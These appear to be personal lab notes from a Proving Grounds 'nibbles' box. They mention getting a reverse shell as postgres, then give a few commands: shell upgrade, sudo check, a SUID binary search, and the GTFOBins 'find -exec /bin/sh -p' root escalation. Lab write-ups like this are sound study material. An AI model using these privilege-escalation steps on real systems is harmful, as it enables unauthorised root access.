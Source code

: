Okay, so chatgpt and I had a heart to heart and unfucked this exploit code. 

Finally got a rev shell
![[PG/Linux/attachments/Pasted image 20250710215717.png]]

Now for a TTY

UGH

![[PG/Linux/attachments/Pasted image 20250710215833.png]]

```
/bin/sh -i
```

Closer...

![[PG/Linux/attachments/Pasted image 20250710220117.png]]

Perfect

![[PG/Linux/attachments/Pasted image 20250710220237.png]]

Def restricted to these directories

postgres@nibbles:/var/lib/postgresql$

Suddenly my password doesn't work?

```
sudo -l
```
![[PG/Linux/attachments/Pasted image 20250710220532.png]]
I know I have a wilson user so 

```
grep -ir wilson
```
![[PG/Linux/attachments/Pasted image 20250710220722.png]]
- binary files not ideal


Search for SUID binaries, run the command below.

```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

![[PG/Linux/attachments/Pasted image 20250710221136.png]]
- yayyy

GTFO Bins time

![[PG/Linux/attachments/Pasted image 20250710221211.png]]

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```
![[PG/Linux/attachments/Pasted image 20250710221424.png]]
